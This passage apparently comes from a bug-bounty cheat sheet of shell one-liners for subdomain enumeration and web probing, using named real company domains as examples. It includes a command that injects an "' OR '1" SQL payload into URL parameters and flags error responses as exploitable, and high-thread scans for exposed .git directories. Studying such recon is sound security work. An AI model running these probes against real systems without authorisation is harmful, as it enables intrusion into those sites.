 - [Github-search](https://github.com/gwen001/github-search)

Using python3 to search subdomains, httpx filter hosts by up status-code response (200)

```python
./github-subdomains.py -t APYKEYGITHUB -d domaintosearch | httpx --title
```

###  Search SQLINJECTION using qsreplace search syntax error

- [Explained command](https://bit.ly/3hxFWS2)

```bash
grep "="  .txt| qsreplace "' OR '1" | httpx -silent -store-response-dir output -threads 100 | grep -q -rn "syntax\|mysql" output 2>/dev/null && \printf "TARGET \033[0;32mCould Be Exploitable\e[m\n" || printf "TARGET \033[0;31mNot Vulnerable\e[m\n"
```

###  Search subdomains using jldc

- [Explained command](https://bit.ly/2YBlEjm)

```bash
curl -s "https://jldc.me/anubis/subdomains/att.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | anew
```

###  Search subdomains in assetfinder using hakrawler spider to search links in content responses

- [Explained command](https://bit.ly/3hxRvZw)

```bash
assetfinder -subs-only tesla.com -silent | httpx -timeout 3 -threads 300 --follow-redirects -silent | xargs -I% -P10 sh -c 'hakrawler -plain -linkfinder -depth 5 -url %' | grep "tesla"
```

###  Search subdomains in cert.sh

- [Explained command](https://bit.ly/2QrvMXl)

```bash
curl -s "https://crt.sh/?q=%25.att.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | httpx -title -silent | anew
```

###  Search subdomains in cert.sh assetfinder to search in link /.git/HEAD

- [Explained command](https://bit.ly/3lhFcTH)

```bash
curl -s "https://crt.sh/?q=%25.tesla.com&output=json" | jq -r '.[].name_value' | assetfinder -subs-only | sed 's#$#/.git/HEAD#g' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```
```bash
curl -s "https://crt.sh/?q=%25.enjoei.com.br&output=json" | jq -r '.[].name_value' | assetfinder -subs-only | httpx -silent -path /.git/HEAD -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```
###  Collect js files from hosts up by gospider
